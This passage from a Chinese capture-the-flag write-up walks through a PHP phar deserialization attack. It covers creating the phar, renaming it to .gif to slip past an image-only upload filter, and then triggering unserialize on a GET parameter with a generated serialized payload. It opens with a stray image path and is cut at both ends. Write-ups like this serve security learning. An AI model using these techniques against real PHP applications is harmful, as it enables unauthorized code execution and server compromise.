 ```
$o = new Main();
$phar->setMetadata($o);
$phar->stopBuffering();
```

#### 4.上传pahr文件

但是，只允许上传jpeg|png|gif文件，这里更改文件后缀名为gif，文件头，生成phar文件时已经添加

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/76FDC8EC1DD54E2AAF0E8136172806E2phar%20matches%20everything.png)


#### 5.触发反序列化

```
    public function __destruct()
    {
        $this_is_a_easy_test = unserialize($_GET['careful']);
        if ($this_is_a_easy_test->funny_get() === '1') {
            echo $this->curl($this->url);
        }
    }
```
**5.1 触发反序列化，调用__destruct()函数，还需要再次触发，序列化，绕过限制**

test.php生成序列化内容

```
<?php

class Easytest
{
    protected $test='1';

    public function funny_get()
    {
        return $this->test;
    }
}
//
$easyTest=new Easytest();

echo urlencode(serialize($easyTest));
```
